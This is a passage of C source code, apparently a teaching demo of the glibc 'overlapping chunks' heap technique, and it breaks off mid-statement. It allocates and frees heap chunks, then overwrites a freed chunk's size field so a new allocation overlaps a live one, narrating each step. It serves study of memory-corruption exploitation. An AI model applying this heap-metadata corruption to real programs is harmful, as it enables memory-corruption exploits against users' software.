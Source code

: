 ```c
/*

 A simple tale of overlapping chunk.
 This technique is taken from
 http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc , char* argv[]){


	intptr_t *p1,*p2,*p3,*p4;

	fprintf(stderr, "\nThis is a simple chunks overlapping problem\n\n");
	fprintf(stderr, "Let's start to allocate 3 chunks on the heap\n");

	p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);

	fprintf(stderr, "The 3 chunks have been allocated here:\np1=%p\np2=%p\np3=%p\n", p1, p2, p3);

	memset(p1, '1', 0x100 - 8);
	memset(p2, '2', 0x100 - 8);
	memset(p3, '3', 0x80 - 8);

	fprintf(stderr, "\nNow let's free the chunk p2\n");
	free(p2);
	fprintf(stderr, "The chunk p2 is now in the unsorted bin ready to serve possible\nnew malloc() of its size\n");

	fprintf(stderr, "Now let's simulate an overflow that can overwrite the size of the\nchunk freed p2.\n");
	fprintf(stderr, "For a toy program, the value of the last 3 bits is unimportant;"
		" however, it is best to maintain the stability of the heap.\n");
	fprintf(stderr, "To achieve this stability we will mark the least signifigant bit as 1 (prev_inuse),"
		" to assure that p1 is not mistaken for a free chunk.\n");

	int evil_chunk_size = 0x181;
	int evil_region_size = 0x180 - 8;
	fprintf(stderr, "We are going to set the size of chunk p2 to to %d, which gives us\na region size of %d\n",
		 evil_chunk_size, evil_region_size);

	*(p2-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

	fprintf(stderr, "\nNow let's allocate another chunk with a size equal to the data\n"
	       "size of the chunk p2 injected size\n");
	fprintf(stderr, "This malloc will be served from the previously freed chunk that\n"
	       "is parked in the unsorted bin which size has been modified by us\n");
	p4 = malloc(evil_region_size);

	fprintf(stderr, "\np4 has been allocated at %p and ends at %p\n", p4, p4+evil_region_size);
	fprintf(stderr, "p3 starts at %p and ends at %p\n", p3, p3+80);
	fprintf(stderr, "p4 should overlap with p3, in this case p4 includes all p3.\n");

	fprintf(stderr, "\nNow everything copied inside chunk p4 can overwrites data on\nchunk p3,"
```
